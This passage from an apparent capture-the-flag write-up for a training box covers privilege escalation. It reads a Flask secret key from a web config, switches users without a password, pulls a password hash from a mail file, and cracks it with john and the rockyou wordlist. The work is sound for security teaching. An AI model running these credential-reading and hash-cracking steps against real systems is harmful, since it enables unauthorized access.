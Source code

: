 - Found 2 user: `dev1`, `dev2`

**Found secret key in `/var/www/incognito.com/`:**
```shell
www-data@incognito:/$ cat /var/www/incognito.com/incognito.wsgi 
#!/usr/bin/python3
import sys
import logging
logging.basicConfig(stream=sys.stderr)
sys.path.insert(0,"/var/www/incognito.com/incognito/")

from incognito import app as application
application.secret_key = '{Redacted}'
```

**Also, I found that we can Switch User to `dev2` without password!**
```shell
www-data@incognito:/$ su dev2
dev2@incognito:/$ whoami;hostname;id;ip a
dev2
incognito
uid=1000(dev2) gid=1000(dev2) groups=1000(dev2),24(cdrom),30(dip),46(plugdev),1002(nosu)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:8b:df:7d:19:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.115.32/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3516sec preferred_lft 3516sec
    inet6 fe80::8b:dfff:fe7d:191f/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `dev2`!

### dev2 to dev1

```shell
dev2@incognito:/$ cat /var/mail/dev1 
Hey, your password has been changed, {Redacted}.
Knock yourself in!
```

Found `dev1` password!

However, it looks like a password hash.

**Let's crack it:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:42:44(HKT)]
└> hash-identifier '{Redacted}'                                         
[...]
Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
[...]

┌[root♥siunam]-(~/ctf/thm/ctf/GameBuzz)-[2023.01.24|13:43:35(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 dev1.hash
[...]
{Redacted}         (?)
```
